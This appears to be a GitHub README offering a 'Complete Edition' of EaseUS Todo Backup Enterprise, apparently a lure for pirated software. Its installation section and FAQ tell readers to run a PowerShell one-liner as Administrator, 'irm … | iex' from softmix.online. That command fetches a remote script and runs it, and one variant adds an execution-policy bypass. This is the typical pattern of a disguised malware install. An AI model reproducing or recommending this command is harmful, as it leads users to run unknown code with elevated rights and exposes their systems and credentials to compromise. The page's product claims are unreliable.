

<div align="center">


<br>


# EaseUS Todo Backup Enterprise Complete Edition
**System backup · File sync · Recovery**
<br>
**System backup · File sync · Recovery**
<br>
Premium · Pro · Complete · Windows



**EaseUS Todo Backup Enterprise — system clone, file sync, disaster recovery and scheduled jobs without limits.**

</div>

---

> Protect systems with scheduled backups — enterprise recovery tools enabled for IT and home power users.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

💾 **Disk imaging** — Full and incremental backups supported.
🔄 **Recovery tools** — Restore systems and files quickly.
📦 **Local backup suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for desktop and server drives.
⚙️ **Pro scheduling** — Automated backup jobs enabled.
🛡️ **Data protection** — Clone and migrate workflows included.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 6 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 6 gb free space.
</details>


TAGS
easeus-todo-backup, easeus, todo-backup, backup-software, system-backup, disk-clone, file-backup, pc-backup, data-recovery, disaster-recovery, easeus-backup, drive-backup, scheduled-backup, enterprise-backup, windows-backup
